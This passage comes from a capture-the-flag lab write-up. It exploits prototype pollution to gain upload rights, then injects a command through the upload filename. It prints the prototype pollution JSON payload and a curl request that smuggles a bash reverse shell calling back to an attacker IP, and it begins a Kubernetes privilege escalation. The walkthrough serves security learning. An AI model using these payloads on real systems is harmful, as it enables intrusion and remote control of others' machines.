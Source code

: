 it has this json data (taken from app.js):  
```
{"auth": {"name": "felamos", "password": "Winter2021"}, "message": {"text": message}}
```

We can modify it a little:  
```
{"auth": {"name": "felamos", "password": "Winter2021"}, "message": {"__proto__":{"canDelete":true,"canUpload":true}}}
```

And now we can send it:  

![obraz](https://github.com/user-attachments/assets/9de8080a-85f5-4092-b723-ae94d91877b0)


## Exploiting Command Injection

Now we have an ability to upload files, but it can also be used to inject commands:  

![obraz](https://github.com/user-attachments/assets/7015adb6-5077-43b5-9148-a0ec35939514)

We got a ping back:  

![obraz](https://github.com/user-attachments/assets/17d2a02a-8d6e-40be-a013-58c14b98fe1f)

Now all we have to do is inject reverse shell one liner to get shell access:  
```
curl -X POST http://10.10.10.235:31337/upload -H 'content-type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename": "; bash -c \"bash >& /dev/tcp/10.10.14.7/9005 0>&1\""}'
```

![obraz](https://github.com/user-attachments/assets/08acf60d-abd4-4816-ba55-f7d246a1cebe)

![obraz](https://github.com/user-attachments/assets/06ecac76-7e33-40f6-b403-23fa5027b8cc)


Let's upgrade this shell:  

![obraz](https://github.com/user-attachments/assets/9fb9fbc8-b967-420e-9ebd-eab6d093eefa)

We're immediately a root, meaning it would be some sort of container most likely.  
After some enumeration I found /etc/hosts that exposed that it is a kubernetes container:  

![obraz](https://github.com/user-attachments/assets/126421dc-9b25-4e63-9147-dbe9cb832142)

It still had a first flag tho.  

![obraz](https://github.com/user-attachments/assets/719b8c6f-eb8f-44ef-97e0-db7673bb595e)



## Kubernetes - Priv Esc

In order to interact with kubernetes we need to move kubectl binary to the target machine.  
We can download it from this link:  
```
https://dl.k8s.io/release/v1.21.0/bin/linux/amd64/kubectl
```
And move it from kali to the target.  
